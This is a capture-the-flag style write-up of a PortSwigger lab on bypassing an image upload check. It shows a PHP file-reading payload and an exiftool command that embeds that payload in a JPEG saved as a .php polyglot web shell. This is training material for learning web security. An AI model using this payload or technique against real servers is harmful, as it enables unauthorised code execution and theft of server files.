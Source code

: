 # Remote code execution via polyglot web shell upload

## Description

[This lab](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload) contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code. 

## Reproduction and proof of concept

1. On your system, create a file called ``exploit.php`` containing a script for fetching the contents of Carlos's secret. For example:

```text
<?php echo file_get_contents('/home/carlos/secret'); ?> 
```

2. Log in and attempt to upload the script as your avatar. 

```text
Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.

� Back to My Account
```

The server successfully blocks uploading files that are not images, even if you try using techniques used in previous labs.

3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:

```text
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" nina.jpg -o polyglot.php
```

This adds the PHP payload to the image's Comment field, then saves the image with a `.php` extension. 

4. In your browser, upload the polyglot image as your avatar, then go back to your account page. 
5. In Burp's proxy history, find the `GET /files/avatars/polyglot.php` request. Use the message editor's search feature to find the `START` string somewhere within the binary image data in the response. Between this and the ``END`` string, you should see Carlos's secret:

![File upload](/_static/images/upload8.png)

6. Submit the secret to solve the lab. 

## Exploitability

An attacker will need to log in; upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`; and then enter this secret using the button provided in the lab banner.
